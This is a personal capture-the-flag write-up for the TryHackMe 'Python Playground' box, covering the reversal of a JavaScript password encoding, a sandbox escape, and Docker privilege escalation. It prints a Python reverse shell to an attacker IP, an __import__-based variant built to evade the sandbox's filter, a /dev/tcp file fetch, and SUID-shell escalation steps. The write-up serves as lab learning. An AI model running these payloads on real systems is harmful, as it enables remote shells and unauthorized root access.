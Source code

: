 # Python-Playground Helped-Through

Name: Python-Playground
Date: 6/5/2023 
Difficulty:  Hard
Goals:  
- Pythonic Expertise
- Requests library brain scarring needs to occur 
Learnt:
Beyond Root:
- Finish [[Racetrack-Bank-Helped-Through]] python script and another for this box

Need to some THM, but I also need to figure out a best in slot FTP server for CTFs (build and tear down) and one that is a most secure for just in case and for one of the Beyond Root challenges for [[Kotarak-Helped-Through]]. I decided that I have not done a Alh4zr3d stream in a week so I also need to improve my Python so I chose [Cthulhu Cthursday: TryHackMe's "GameBuzz" and "Python Playground"](https://www.youtube.com/watch?v=AqNKLu_y6H8). I also need to do some execise in the intervals. This Helped-Through is paired with [[GameBuzz-Helped-Through]]. 

Apparently these are malders. I here to learn to boulder the malders one day.

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Python-Playground/Screenshots/ping.png)

Nmap found:
![](csabd.png)

![](supersecretpanel.png)



```javascript
function string_to_int_array(str) {
    const intArr = [];
    for (let i = 0; i < str.length; i++) {
        const charcode = str.charCodeAt(i);
        // This is not reversible as result of modulus and division 
        const partA = Math.floor(charcode / 26);
        const partB = charcode % 26;
        intArr.push(partA);
        intArr.push(partB);
    }
    return intArr;
}

function int_array_to_text(int_array) {
    let txt = '';
    for (let i = 0; i < int_array.length; i++) {
        txt += String.fromCharCode(97 + int_array[i]);
    }
    return txt;
}

```

Reversing attempt:
```js
hash = 'dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu'
tmp = int_array_to_text(hash)
tmp = string_to_int_array(tmp)
tmp = int_array_to_text(tmp)
const hash = int_array_to_text(string_to_int_array(int_array_to_text(string_to_int_array(chosenPass))))
const tmp = string_to_int_array(int_array_to_text(string_to_int_array(int_array_to_text(hash))))
```

Python things learnt
```python
# Python chr() function takes integer argument and return the string representing a character at that code point. 
chr()
# The _ord()_ function returns an integer representing the Unicode character.
ord()
```

Walking through the reversing of the functions Alh4zr3d really shines. The only mistake was just multiplication of a variable when the control was a for loop.
```python
#!/usr/share/python3

def int_array_to_string(int_array):
    result = ""
    i = 0
    while i < len(int_array):
        char_code = int_array[i] * 26
        i += 1
        char = chr(char_code + int_array[i])
        result += char
        i += 1

    return result


def string_to_int_array(string):
    result = []
    for i in string:
        result.append(ord(i) - 97)
    return result


def main():
    hash = "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
    print(int_array_to_string(string_to_int_array(int_array_to_string(string_to_int_array(hash)))))
    exit()

if __name__ == '__main__':
    main()
```
``

## Exploit

Super secret python playground.
![](athreattosecurity.png)


We will probably need to evade filting of a reverse shell
```python
import 
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.43.145",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
Needs to be changes - Sandboxes are not filters but function the same [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes) - tried various keywords and builtins, but to no success

![](importmod.png)

![](open0.png)

Learning that simple obfuscation - Al pointed the way
```python
# Reverse the strings and return back to intended form with [::-1]
# base64 encoding
"so tropmi"[::-1]

socket = __import__("socket", globals=None, locals=None, fromlist=(), level=0)
os = __import__("os", globals=None, locals=None, fromlist=(), level=0)
pty = __import__("pty", globals=None, locals=None, fromlist=(), level=0)
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.43.145",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```

![](rootinthedockercontainer.png)




## Docker Bre..ssh Connor Site remember... but PrivEsc

Docker enumeration
```bash
mount # Key 
```

![](dockerprocs.png)

Transfer Deepce.sh
```bash
# Use nc to serve the file
nc -lvnp 80 < deepce.sh
# Target machine
bash -c "cat < /dev/tcp/10.14.43.145/80 > /tmp/deepce.sh"
```

Annoyingly we could just ssh in a connor as we know it connors site...
![](roothasscripts.png)

![](weirdport.png)

![](weirdport.png)

```bash
mount # check if it is mounted into the host filesystem 
# If so and you are root in dockerenv
cp /bin/sh $mount_misconfiguration_dir
# Give the binary suid privileges
chmod u+s /bin/sh  
# And PrivEsc on the host after breakout.
```
  
![](privescthrutoroot.png)

## Beyond Root

[[Racetrack-Bank-Helped-Through]] - One Account to Rule them all
